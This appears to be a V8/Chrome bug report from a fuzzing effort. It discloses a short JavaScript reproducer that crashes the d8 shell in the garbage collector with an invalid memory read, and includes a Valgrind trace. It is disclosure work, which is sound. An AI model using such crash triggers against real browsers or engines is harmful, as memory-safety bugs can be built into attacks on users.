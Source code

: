 <b>VULNERABILITY DETAILS</b>
The JavaScript code below crashes d8 shell (trunk version as in Chrome 23.0.1262.0) in function v8::internal::MarkCompactCollector::EvacuateNewSpace with an invalid read from a random address. As the test requires gc() to reproduce, I only tested this on the v8-trunk shell (version as included in current Chrome dev).

<b>VERSION</b>
Chrome Version: 23.0.1262.0 dev
Operating System: Ubuntu 12.04 64 bit

<b>REPRODUCTION CASE</b>
Object.prototype.__defineSetter__('x', function(value) { result_x = value; });
function setx() {
  x = 100000;
}
setx();
__defineSetter__('x', function() {});
var keys = Object.keys( 3 && this || this ? this : this >>= "x");
gc();


<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: tab
Crash state:

==8041== Invalid read of size 8
==8041==    at 0x5550B0: v8::internal::MarkCompactCollector::EvacuateNewSpace() (in /scratch/holler/LangFuzz/v8-trunk/d8)
==8041==    by 0x555EBD: v8::internal::MarkCompactCollector::EvacuateNewSpaceAndCandidates() (in /scratch/holler/LangFuzz/v8-trunk/d8)
==8041==    by 0x557250: v8::internal::MarkCompactCollector::SweepSpaces() (in /scratch/holler/LangFuzz/v8-trunk/d8)
==8041==    by 0x55FEF1: v8::internal::MarkCompactCollector::CollectGarbage() (in /scratch/holler/LangFuzz/v8-trunk/d8)
==8041==    by 0x4B9639: v8::internal::Heap::PerformGarbageCollection(v8::internal::GarbageCollector, v8::internal::GCTracer*) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==8041==    by 0x4B9E83: v8::internal::Heap::CollectGarbage(v8::internal::AllocationSpace, v8::internal::GarbageCollector, char const*, char const*) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==8041==    by 0x4BA6CA: v8::internal::Heap::CollectAllGarbage(int, char const*) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==8041==    by 0x4743BE: v8::internal::GCExtension::GC(v8::Arguments const&) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==8041==    by 0x43EF97: v8::internal::Builtin_HandleApiCall(v8::internal::(anonymous namespace)::BuiltinArguments<(v8::internal::BuiltinExtraArguments)1>, v8::internal::Isolate*) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==8041==    by 0x125452006361: ???
==8041==    by 0x12545203FB4F: ???
==8041==    by 0x12545200CFA6: ???
==8041==  Address 0xc0fd7794360 is not stack'd, malloc'd or (recently) free'd
